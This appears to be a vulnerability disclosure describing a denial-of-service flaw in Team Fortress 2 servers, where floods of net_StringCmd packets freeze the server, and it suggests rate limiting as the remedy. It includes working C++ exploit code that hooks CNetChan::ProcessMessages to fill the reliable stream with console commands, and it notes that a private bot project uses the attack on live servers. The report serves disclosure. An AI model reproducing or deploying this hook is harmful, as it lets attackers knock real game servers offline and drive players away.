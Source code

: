 Hi. With the help of a huge number of net_StringCmd packets, the client is able to "freeze" the server, creating lags. Currently it is used in the LagBot project - a private project based on the CatBot project, which for now have filled the game servers of the game Team Fortress 2 "Casual" mode. It is enough to continuously send thousands of these packets per unit of time, so that the server began to experience lags, or "shutdown" effect. This is caused by the fact that the server tries to find the necessary command in the lists of console variables and commands, which requires CPU time. The only solution that I see is to limit the processing of net_StringCmd packets per second from client.

I managed to implement this exploit by intercepting the ProcessMessages method of the CNetChan class, inserting into it an own handler that generates net_StringCmd packets.

```
bool __fastcall hkCNetChan_ProcessMessages(CNetChan *pThis, int, bf_read *pBuf)
{
	//
	// Get original address of CNetChan::ProcessMessages method.
	//

	static auto pfnCNetChan_ProcessMessages = TProcessMessages(Engine[0x1B5A40]);

	if (g_bExecuteHeh)
	{
		//
		// Simple way to send as much as possible
		// amount of net_StringCmd packet.
		//

		pThis->SetCompressionMode(true);
		pThis->SetMaxBufferSize(true, NET_MAX_PAYLOAD);

		auto pNetBuf = &pThis->m_StreamReliable;
		
		//
		// Fill to the limit the reliable stream.
		//

		while (pNetBuf->GetNumBitsWritten() + 15 < pNetBuf->GetNumBitsLeft())
		{
			pNetBuf->WriteHeader(net_StringCmd);

			//
			// You can choose any console command,
			// 'menuselect' is for example.
			//

			pNetBuf->WriteString("menuselect 1 1");
		}
	}

	//
	// Call original method.
	//

	return pfnCNetChan_ProcessMessages(pThis, pBuf);
}
```

## Impact

As described above - the attacker is able to "freeze" the server, completely stopping the game process and forcing current players to leave the server.